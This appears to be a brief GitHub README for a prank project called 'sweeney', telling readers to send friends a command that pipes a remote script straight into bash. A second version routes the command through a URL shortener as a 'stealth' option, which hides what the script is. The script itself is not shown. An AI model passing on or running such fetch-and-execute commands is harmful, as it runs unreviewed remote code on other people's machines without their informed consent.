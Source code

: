 # sweeney
send this to your friends to totally sweeney them

```curl -sSL https://raw.githubusercontent.com/x86Overflow/sweeney/main/sweeney | bash```

you can also stealth sween them with this link

```curl -sSL https://bit.ly/3yHgiID | bash```
